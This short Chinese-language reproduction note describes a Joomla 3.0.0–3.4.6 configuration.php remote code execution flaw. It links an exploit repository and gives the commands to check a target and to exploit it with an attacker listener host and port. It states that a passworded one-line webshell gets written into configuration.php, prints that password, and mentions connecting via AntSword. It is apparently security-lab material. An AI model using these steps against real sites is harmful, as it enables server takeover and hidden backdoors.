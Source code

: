 Joomla 3.4.6 configuration.php 远程代码执行
===========================================

一、漏洞简介
------------

Joomla 3.4.6 - \'configuration.php\' Remote Code Execution

二、影响范围
------------

Joomla 3.0.0 至 3.4.6

三、复现过程
------------

https://github.com/ianxtianxt/Joomla-3.4.6\-\--configuration.php-Remote-Code-Execution

### 脚本验证

验证：

    python3 test.py -t http://127.0.0.1:8080/

![](resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId25.png)

显示"Vulnerable"证明存在漏洞

利用：

    python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121

![](resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId26.png)

执行成功

并在"configuration.php"写入**随机密码**的一句话木马![](resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId27.png)上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

![](resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId28.png)
